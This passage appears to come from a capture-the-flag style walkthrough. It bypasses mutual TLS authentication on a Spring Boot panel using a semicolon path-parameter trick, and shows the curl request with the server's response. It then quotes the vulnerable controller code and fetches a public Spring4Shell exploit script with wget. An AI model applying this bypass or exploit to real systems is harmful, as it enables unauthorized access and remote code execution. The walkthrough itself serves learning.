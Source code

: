 ![](assets/reverse.png)

Assuming the service running on localhost is either Jetty or Tomcat, we can utilize this technique bypass the mutual authentication. Let's try to access `/panel/status` 

```bash
curl -k https://3.23.94.118:9001/panel\;a=b/status 
{"timestamp":"2022-04-16T07:07:34.832+00:00","status":405,"error":"Method Not Allowed","path":"/panel;a=b/status"}
```

 This seems worked and the server responded with `Method Not Allowed`. Since this path is mapped to POST method it denies the GET request and that makes sense. 

We now have a way to skip the mutual authentication. Searching more on Spring Boot exploits we find a latest exploit known as [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/). The Panel application is also utilizing Plain Old Java Object requests at least in two places. 

```java
@PostMapping("/panel/status")
    public String panelStatus(@ModelAttribute PanelItems status, Model model) {
        return "Panel Status: OK";
    }
@PostMapping("/panel/update")
    public String panelSubmit(@ModelAttribute PanelItems update, Model model) {
        return "Panel Update: Model yet to build";
    }
```

We can find many exploits online. Let's grab one and test this theory. 

```bash
wget https://raw.githubusercontent.com/reznok/Spring4Shell-POC/master/exploit.py
```
